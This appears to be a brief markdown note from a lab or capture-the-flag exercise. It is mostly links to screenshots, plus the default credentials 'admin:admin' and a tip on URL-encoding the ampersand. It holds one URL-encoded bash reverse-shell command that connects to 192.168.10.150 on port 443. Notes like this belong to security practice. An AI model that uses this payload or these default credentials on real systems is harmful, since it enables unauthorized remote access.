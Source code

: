 ![](Pasted%20image%2020250226171036.png)

![](Pasted%20image%2020250226171231.png)
![](Pasted%20image%2020250226171253.png)

![](Pasted%20image%2020250226171529.png)
![](Pasted%20image%2020250226171914.png)

![](Pasted%20image%2020250226174158.png)

admin:admin
![](Pasted%20image%2020250226171854.png)

![](Pasted%20image%2020250227111219.png)

![](Pasted%20image%2020250227111144.png)


![](Pasted%20image%2020250226174347.png)

![](Pasted%20image%2020250226174407.png)

![](Pasted%20image%2020250226174513.png)

![](Pasted%20image%2020250226174834.png)

![](Pasted%20image%2020250226174916.png)

& == %26

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

![](Pasted%20image%2020250227110848.png)

![](Pasted%20image%2020250227111008.png)

![](Pasted%20image%2020250227112614.png)

![](Pasted%20image%2020250227113511.png)
![](Pasted%20image%2020250227113702.png)
![](Pasted%20image%2020250227113757.png)

![](Pasted%20image%2020250227114324.png)





